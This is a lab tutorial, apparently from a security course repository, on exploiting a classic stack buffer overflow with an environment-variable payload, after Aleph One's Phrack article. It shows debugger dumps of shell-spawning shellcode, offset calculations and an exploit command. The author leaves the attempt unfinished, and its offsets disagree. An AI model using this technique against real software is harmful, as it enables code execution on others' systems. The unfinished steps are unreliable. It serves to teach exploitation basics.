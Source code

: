 ### Exploiting

In this tutorial we'll review how to proceed with a buffer overflow and exploit it.

Content is heavily based on [1]:

----

**Note**: as in previous tutorials, there's a docker container that facilitates reproducing the work of this tutorial. The container can be built with:
```bash
docker build -t basic_cybersecurity3:latest .
```
and run with:
```bash
docker run --privileged -it basic_cybersecurity3:latest
```

----

We'll be using two binaries `vulnerable` (the vulnerable program which takes a parameter) and `exploit2`, a program that takes as a parameter a buffer size, and an offset from its own stack pointer (where we believe the buffer we want to
overflow may live).

An introduction to exploit2 is provided at [2]. They way things work in a simple way is, `exploit2` launches pushes the content of `buff` to an environmental variable called `EGG` and just afterwards, launches a shell with this environmental variable active. Within the shell, we launch `vulnerable` and use `$EGG` as a parameter.
The trick here is that when constructing `buff` in `exploit2`, we obtain the stack pointer (`esp` in i386) of that binary
and substract an arbitrary number we define from it to obtain the address that will be written after the shellcode. This way, we end up with something like this *in the heap* (note that `buff` lives in the *heap*):

```
                              /----------------------\  lower
                              |        shellcode     |  memory
                              |                      |  addresses
                              |----------------------|
                              |                      |
                            | | esp - arbitrary num. |
                    growth  | |                      |
                  direction v |-.-.-.-.-.-.-.-.-.-.-.|
                              |                      |
                              | esp - arbitrary num. |
                              |                      |
                              |-.-.-.-.-.-.-.-.-.-.-.|
                              |                      |
                              | esp - arbitrary num. |
                              |                      |
                              |-.-.-.-.-.-.-.-.-.-.-.|
                                        ...
```
As pointed out, this content gets pushed to the environmental variable `EGG`.

Now, when we launch a shell and subsequently, launch `vulnerable` within the shell our stack is growing as follows:

```
                              /------------------\  higher
                              |                  |  memory
                              |                  |  addresses
                              |------------------|
                              |                  |
                            | |  Stack exploit2  | esp = 0xffffd740
                    growth  | |                  |
                  direction v |-.-.-.-.-.-.-.-.-.|
                              |                  |
                              |    Stack bash    | esp = 0xffffd5a8
                              |                  |
                              |-.-.-.-.-.-.-.-.-.|
                              |                  |
                              | Stack vulnerable | esp = 0xffffd0c0
                              |                  |
                              |-.-.-.-.-.-.-.-.-.|
                              |                  |
                              |       ...        |
                              |                  |                                                            
                              |------------------|
```

*Note: These numbers will only appear when running each binary with GDB. If not, the stack pointer of `exploit2` will appear with weird values like `0xffde5688` and so on.*

What this tells us is that making some simple math `0xffffd740 - 0xffffd0c0 = 1664` we can figure out the offset address needed. In other words, if we substract `1664` to the `esp` value of `exploit2`, we could point to the bits of the `vulnerable`'s stack pointer and pretty much do with it what we want if we overflow the buffer `buffer` of `vulnerable`.

*Note: for some reason, the number needed to get the right address in the stack is not 1664 but 8 bits less: 1656. Not sure why.*

We can double check this by printing the memory of `buff` and `buffer` while debugging `exploit2` and `vulnerable` respectively:

```
pwndbg> p buff
$1 = 0x804b008 "EGG=\353\037^\211v\b1\300\210F\a"...
pwndbg> x/100wx 0x0804b008
0x804b008:	0x3d474745	0x895e1feb	0xc0310876	0x89074688
0x804b018:	0x0bb00c46	0x4e8df389	0x0c568d08	0xdb3180cd
0x804b028:	0xcd40d889	0xffdce880	0x622fffff	0x732f6e69
0x804b038:	0xffffd068	0xffffd0c0	0xffffd0c0	0xffffd0c0
0x804b048:	0xffffd0c0	0xffffd0c0	0xffffd0c0	0xffffd0c0
0x804b058:	0xffffd0c0	0xffffd0c0	0xffffd0c0	0xffffd0c0
0x804b068:	0xffffd0c0	0xffffd0c0	0xffffd0c0	0xffffd0c0
0x804b078:	0xffffd0c0	0xffffd0c0	0xffffd0c0	0xffffd0c0
0x804b088:	0xffffd0c0	0xffffd0c0	0xffffd0c0	0xffffd0c0
0x804b098:	0xffffd0c0	0xffffd0c0	0xffffd0c0	0xffffd0c0
0x804b0a8:	0xffffd0c0	0xffffd0c0	0xffffd0c0	0xffffd0c0
0x804b0b8:	0xffffd0c0	0xffffd0c0	0xffffd0c0	0xffffd0c0
0x804b0c8:	0xffffd0c0	0xffffd0c0	0xffffd0c0	0xffffd0c0
0x804b0d8:	0xffffd0c0	0xffffd0c0	0xffffd0c0	0xffffd0c0
0x804b0e8:	0xffffd0c0	0xffffd0c0	0xffffd0c0	0xffffd0c0
0x804b0f8:	0xffffd0c0	0xffffd0c0	0xffffd0c0	0xffffd0c0
0x804b108:	0xffffd0c0	0xffffd0c0	0xffffd0c0	0xffffd0c0
0x804b118:	0xffffd0c0	0xffffd0c0	0xffffd0c0	0xffffd0c0
0x804b128:	0xffffd0c0	0xffffd0c0	0xffffd0c0	0xffffd0c0
0x804b138:	0xffffd0c0	0xffffd0c0	0xffffd0c0	0xffffd0c0
0x804b148:	0xffffd0c0	0xffffd0c0	0xffffd0c0	0xffffd0c0
0x804b158:	0xffffd0c0	0xffffd0c0	0xffffd0c0	0xffffd0c0
0x804b168:	0xffffd0c0	0xffffd0c0	0xffffd0c0	0xffffd0c0
0x804b178:	0xffffd0c0	0xffffd0c0	0xffffd0c0	0xffffd0c0
0x804b188:	0xffffd0c0	0xffffd0c0	0xffffd0c0	0xffffd0c0
```

```
pwndbg> p argv[1]
$3 = 0xffffd493 "\353\037^\211v\b1\300\210F\a\211F\f\260"..
pwndbg> x/100wx 0xffffd493
0xffffd493:	0x895e1feb	0xc0310876	0x89074688	0x0bb00c46
0xffffd4a3:	0x4e8df389	0x0c568d08	0xdb3180cd	0xcd40d889
0xffffd4b3:	0xffdce880	0x622fffff	0x732f6e69	0xffffd068
0xffffd4c3:	0xffffd0c0	0xffffd0c0	0xffffd0c0	0xffffd0c0
0xffffd4d3:	0xffffd0c0	0xffffd0c0	0xffffd0c0	0xffffd0c0
0xffffd4e3:	0xffffd0c0	0xffffd0c0	0xffffd0c0	0xffffd0c0
0xffffd4f3:	0xffffd0c0	0xffffd0c0	0xffffd0c0	0xffffd0c0
0xffffd503:	0xffffd0c0	0xffffd0c0	0xffffd0c0	0xffffd0c0
0xffffd513:	0xffffd0c0	0xffffd0c0	0xffffd0c0	0xffffd0c0
0xffffd523:	0xffffd0c0	0xffffd0c0	0xffffd0c0	0xffffd0c0
0xffffd533:	0xffffd0c0	0xffffd0c0	0xffffd0c0	0xffffd0c0
0xffffd543:	0xffffd0c0	0xffffd0c0	0xffffd0c0	0xffffd0c0
0xffffd553:	0xffffd0c0	0xffffd0c0	0xffffd0c0	0xffffd0c0
0xffffd563:	0xffffd0c0	0xffffd0c0	0xffffd0c0	0xffffd0c0
0xffffd573:	0xffffd0c0	0xffffd0c0	0xffffd0c0	0xffffd0c0
0xffffd583:	0xffffd0c0	0xffffd0c0	0xffffd0c0	0xffffd0c0
0xffffd593:	0xffffd0c0	0xffffd0c0	0xffffd0c0	0xffffd0c0
0xffffd5a3:	0xffffd0c0	0xffffd0c0	0xffffd0c0	0xffffd0c0
0xffffd5b3:	0xffffd0c0	0xffffd0c0	0xffffd0c0	0xffffd0c0
0xffffd5c3:	0xffffd0c0	0xffffd0c0	0xffffd0c0	0xffffd0c0
0xffffd5d3:	0xffffd0c0	0xffffd0c0	0xffffd0c0	0xffffd0c0
0xffffd5e3:	0xffffd0c0	0xffffd0c0	0xffffd0c0	0xffffd0c0
0xffffd5f3:	0xffffd0c0	0xffffd0c0	0xffffd0c0	0xffffd0c0
0xffffd603:	0xffffd0c0	0xffffd0c0	0xffffd0c0	0xffffd0c0
0xffffd613:	0xffffd0c0	0xffffd0c0	0xffffd0c0	0xffffd0c0

```

*Note: the first 4 bits of the dump in `exploit2` don't match because correspond with the string "EGG="*

Note that `0xffffd0c0` is appended after the shellcode which aims to overwrite the return address of `vulnerable` to jump into the beginning of the stack pointer `esp` which is where the overflowed buffer begins which the malici

Before the following instructions in `vulnerable`:
```C
5     strcpy(buffer,argv[1]);
```

the content of `buffer` should be:

```
pwndbg> p &buffer
$2 = (char (*)[512]) 0xffffd0c0
pwndbg> x/100wx 0xffffd0c0 # similar to "x/100wx &buffer"
0xffffd0c0:	0x00000070	0xf7feff96	0xf7fe933d	0xf7fe1f60
0xffffd0d0:	0xf7fd8241	0xf7f6d298	0xf7ffd53c	0xf7fe4017
0xffffd0e0:	0xf7ffc000	0x00001000	0x00000001	0x03ae75f6
0xffffd0f0:	0xf7ffdad0	0xf7fd5780	0xf7fe1e39	0xf7fd8128
0xffffd100:	0x00000007	0xf7ffdc08	0x6e43a318	0xf7fe263d
0xffffd110:	0x00000000	0x00000000	0xf7fd81a0	0x00000007
0xffffd120:	0xf7fd81c0	0xf7ffdc08	0xffffd17c	0xffffd178
0xffffd130:	0x00000001	0x00000000	0xf7ffd000	0xf7f6d2a2
0xffffd140:	0x6e43a318	0xf7fe1f60	0xf7e252e5	0x0804825e
0xffffd150:	0xf7fd81a0	0x03721d18	0xf7ff5ac4	0xffffd208
0xffffd160:	0xf7ff39f3	0x0d696910	0xf7ffd000	0x00000000
0xffffd170:	0xf7fe1e39	0xf7e15d14	0x000008ea	0xf7fd51b0
0xffffd180:	0xf63d4e2e	0xf7fe263d	0x00000001	0x00000001
0xffffd190:	0xf7e1edc8	0x000008ea	0xf7e1f618	0xf7fd51b0
0xffffd1a0:	0xffffd1f4	0xffffd1f0	0x00000003	0x00000000
0xffffd1b0:	0xf7ffd000	0x0804823d	0xf63d4e2e	0xf7e15f12
0xffffd1c0:	0x000008ea	0xf7e1f618	0xf7e1edc8	0x07b1ea71
0xffffd1d0:	0xf7ff5ac4	0xffffd280	0xf7ff39f3	0xf7fd5470
0xffffd1e0:	0x00000000	0x00000000	0xf7ffd000	0xf7ffdc08
0xffffd1f0:	0x00000000	0x00000000	0x00000000	0xffffd28c
0xffffd200:	0xf7fe1fc9	0x00000000	0xf7ffdad0	0xffffd288
0xffffd210:	0xffffd2d0	0xf7fe2b4b	0x080481fc	0xffffd288
0xffffd220:	0xf7ffda74	0x00000001	0xf7fd54a0	0x00000001
0xffffd230:	0x00000000	0x00000001	0xf7ffd918	0x00f0b5ff
0xffffd240:	0xffffd27e	0x00000001	0x000000c2	0xf7ea26bb
```

stepping through this instruction, the content of `buffer` becomes:

```
pwndbg> p &buffer
$2 = (char (*)[512]) 0xffffd0c0
0xffffd0c0:	0x00000070	0xf7feff96	0xf7fe933d	0xf7fe1f60
0xffffd0d0:	0xf7fd8241	0xf7f6d298	0xf7ffd53c	0xf7fe4017
0xffffd0e0:	0xf7ffc000	0x00001000	0x00000001	0x03ae75f6
0xffffd0f0:	0xf7ffdad0	0xf7fd5780	0xf7fe1e39	0xf7fd8128
0xffffd100:	0x00000007	0xf7ffdc08	0x6e43a318	0xf7fe263d
0xffffd110:	0x00000000	0x00000000	0xf7fd81a0	0x00000007
0xffffd120:	0xf7fd81c0	0xf7ffdc08	0xffffd17c	0xffffd178
0xffffd130:	0x00000001	0x00000000	0xf7ffd000	0xf7f6d2a2
0xffffd140:	0x6e43a318	0xf7fe1f60	0xf7e252e5	0x0804825e
0xffffd150:	0xf7fd81a0	0x03721d18	0xf7ff5ac4	0xffffd208
0xffffd160:	0xf7ff39f3	0x0d696910	0xf7ffd000	0x00000000
0xffffd170:	0xf7fe1e39	0xf7e15d14	0x000008ea	0xf7fd51b0
0xffffd180:	0xf63d4e2e	0xf7fe263d	0x00000001	0x00000001
0xffffd190:	0xf7e1edc8	0x000008ea	0xf7e1f618	0xf7fd51b0
0xffffd1a0:	0xffffd1f4	0xffffd1f0	0x00000003	0x00000000
0xffffd1b0:	0xf7ffd000	0x0804823d	0xf63d4e2e	0xf7e15f12
0xffffd1c0:	0x000008ea	0xf7e1f618	0xf7e1edc8	0x07b1ea71
0xffffd1d0:	0xf7ff5ac4	0xffffd280	0xf7ff39f3	0xf7fd5470
0xffffd1e0:	0x00000000	0x00000000	0xf7ffd000	0xf7ffdc08
0xffffd1f0:	0x00000000	0x00000000	0x00000000	0xffffd28c
0xffffd200:	0xf7fe1fc9	0x00000000	0xf7ffdad0	0xffffd288
0xffffd210:	0xffffd2d0	0xf7fe2b4b	0x080481fc	0xffffd288
0xffffd220:	0xf7ffda74	0x00000001	0xf7fd54a0	0x00000001
0xffffd230:	0x00000000	0x00000001	0xf7ffd918	0x00f0b5ff
0xffffd240:	0xffffd27e	0x00000001	0x000000c2	0xf7ea26bb
```

which seems unchanged. Something's not quite working. **Follow from here**.

Let's launch `exploit2`:
```bash
# Terminal 1
./exploit2 600 1564
gdb --args ./vulnerable $EGG

```

### Bibliography
- [1] A. One (1996). Smashing the Stack for Fun and Profit. Phrack, 7. Retrieved from http://insecure.org/stf/smashstack.html.
- [2] Basic stack overflow experimentation. Retrieved from https://github.com/vmayoral/cybersecurity_specialization/tree/master/software_security/week1.
